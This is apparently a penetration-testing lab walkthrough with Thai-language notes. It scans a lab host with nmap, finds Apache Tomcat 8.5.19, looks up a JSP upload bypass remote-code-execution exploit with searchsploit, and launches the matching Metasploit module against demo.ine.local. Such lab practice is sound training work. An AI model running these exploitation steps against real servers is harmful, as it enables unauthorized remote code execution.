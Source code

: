 `nmap --top-ports 65536 demo.ine.local -sV`
8080/tcp  open  http   Apache Tomcat 8.5.19

พยายามสนใจอันที่มีเลข Version

`searchsploit apache tomcat`
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution (2)                                                                  | jsp/webapps/42966.py

focus remote code execution เพราะเป็นช่องโหว่ที่รุนแรง

`msfconsole -q`
`search tomcat jsp upload`
 exploit/multi/http/tomcat_jsp_upload_bypass

 ` use exploit/multi/http/tomcat_jsp_upload_bypass `
 `set RHOSTS demo.ine.local`
 `exploit`